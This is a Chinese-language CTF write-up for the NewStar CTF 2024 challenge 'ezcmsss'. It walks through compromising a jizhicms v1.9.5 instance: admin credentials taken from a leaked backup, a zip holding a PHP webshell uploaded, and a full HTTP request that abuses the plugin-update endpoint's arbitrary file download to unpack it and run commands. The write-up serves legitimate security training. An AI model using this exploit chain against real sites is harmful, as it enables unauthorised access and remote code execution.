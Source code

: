 ```yaml
---
titleTemplate: ":title | WriteUp - NewStar CTF 2024"
---
```


# ezcmsss

在首页源码里找到提示，需要查看备份文件

![首页源码](/assets/images/wp/2024/week4/ezcmsss_1.png)

访问 `/www.zip` 获得源码备份文件，在 `readme.txt` 获得 jizhicms 版本号为 v1.9.5，在 `start.sh` 获得服务器初始化时使用的管理员账号和密码

![管理员账号密码](/assets/images/wp/2024/week4/ezcmsss_2.png)

同时在 `start.sh` 中有备注提示访问 `admin.php` 进入管理页面，然后使用上面的账号密码登录

![admin.php](/assets/images/wp/2024/week4/ezcmsss_3.png)

上网搜索可以发现 jizhicms v1.9.5 有一个管理界面的任意文件下载漏洞

在 **扩展管理 » 插件列表** 中发现只有一个插件，这是由于容器不出网导致的，因此我们不能按照网上的方式，使用公网的 URL 链接下载文件，而是需要在将 `.zip` 文件上传到题目容器里，然后通过任意文件下载漏洞本地下载、解压

![插件列表](/assets/images/wp/2024/week4/ezcmsss_4.png)

有几种上传 `.zip` 文件的方法，都可以获取到文件保存的目录，其中一种是在 **栏目管理 » 栏目列表 » 新增栏目** 中添加附件，上传构造好的包含 PHP 马的压缩包

![上传压缩包](/assets/images/wp/2024/week4/ezcmsss_5.png)

抓包获得保存路径为 `/static/upload/file/20241016/1729079175871306.zip`，测试可以访问

在插件那边进行抓包，构造请求如下<span data-desc>（可以照着网上的漏洞复现，依葫芦画瓢，`filepath` 随便起就行）</span>

```http
POST /admin.php/Plugins/update.html HTTP/1.1
Host: eci-2zedm1lw513xbz1d46c6.cloudeci1.ichunqiu.com
Content-Length: 126
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie:PHPSESSID=0k7pqbk4chhak4ku5aqbfhe7b3

filepath=apidata&action=start-download&type=0&download_url=http%3a//127.0.0.1/static/upload/file/20241016/1729079175871306.zip
```

:::warning 注意
这里的 PHPSESSID 记得换成自己的
:::

![发包](/assets/images/wp/2024/week4/ezcmsss_6.png)

继续构造解压的请求，修改 `action` 即可，解压完的文件在 `/A/exts`

![解压](/assets/images/wp/2024/week4/ezcmsss_7.png)

访问 `/A/exts/shell.php`，可以直接进行命令执行

:::warning 注意
这里的路径文件名就是上面下载的压缩包里面的文件，如果压缩包里有多个文件，解压会在 `exts` 下建立一个和上面 POST 参数 `filepath` 的值一致的文件夹，php 马需要在此目录下访问
:::

![shell](/assets/images/wp/2024/week4/ezcmsss_8.png)

flag 在根目录下的 `/flllllag` 文件，用通配符读取即可<span data-desc>（如 `/fl*`）</span>
